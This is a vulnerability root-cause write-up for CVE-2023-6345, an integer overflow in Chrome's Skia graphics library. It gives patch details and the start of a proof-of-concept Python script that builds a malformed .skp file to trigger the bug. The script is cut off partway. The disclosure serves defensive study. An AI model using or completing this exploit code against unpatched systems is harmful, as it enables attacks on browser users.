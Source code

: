 # CVE-2023-6345: Integer overflow in Skia MeshOp::onCombineIfPossible
*Benoît Sevens and Clement Lecigne*

## The Basics

**Disclosure or Patch Date:** November 28, 2023

**Product:** Google Chrome

**Advisory:** https://chromereleases.googleblog.com/2023/11/stable-channel-update-for-desktop_28.html

**Affected Versions:** Versions older than 119.0.6045.199

**First Patched Version:** 119.0.6045.199

**Issue/Bug Report:** https://crbug.com/1505053

**Patch CL:** https://skia.googlesource.com/skia/+/6169a1fabae1743709bc9641ad43fcbb6a4f62e1

**Bug-Introducing CL:** https://skia.googlesource.com/skia/+/8a85ab0d96a1128c64fa21133518e835506b3895

**Reporter(s):** Benoît Sevens and Clément Lecigne of Google's Threat Analysis Group

## The Code

**Proof-of-concept:**

Compile Skia with [ASAN](https://skia.org/docs/dev/testing/xsan/). The following Python script `gen.py` will create a `poc.skp` in the current directory:

```
import struct
import sys

kSkBlenderInSkPaint = 87
kXor = 11
sizeof_SkPoint = 8
sizeof_uint16_t = 2
kHasTexs_Mask = 0x100
kPictureData_TrailingStreamByteAfterPictInfo = 1
DRAW_VERTICES_OBJECT = 62
INT32_MAX = (1 << 31) - 1

vertexCount = 1 << 16  # Optimized to have as small as possible output .skp
indexCount = 0
name = b'poc'

def p32(x):
    return struct.pack("<I", x)

def p8(x):
    return bytes([x])

def f32(x):
    return struct.pack("<f", x)

def tag(s):
    return s.encode()[::-1]

info = b'skiapict'
info += p32(kSkBlenderInSkPaint)  # SkPictInfo.fVersion
info += f32(0)  # SkRect.fLeft
info += f32(0)  # SkRect.fTop
```